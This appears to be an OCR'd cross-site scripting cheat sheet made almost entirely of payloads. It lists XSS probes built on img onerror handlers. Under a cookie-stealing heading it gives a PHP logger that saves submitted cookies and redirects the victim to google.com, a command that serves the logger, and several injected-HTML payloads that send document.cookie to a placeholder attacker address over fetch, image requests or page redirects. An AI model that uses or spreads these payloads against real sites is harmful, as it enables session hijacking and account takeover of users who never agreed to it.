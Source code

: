 ___

```js
"><img src=x onerror=prompt(document.domain)>
```

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```


# Obtaining session cookies 

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

```bash
php -S <VPN/TUN Adapter IP>:8000
```

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

## Netcat

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```



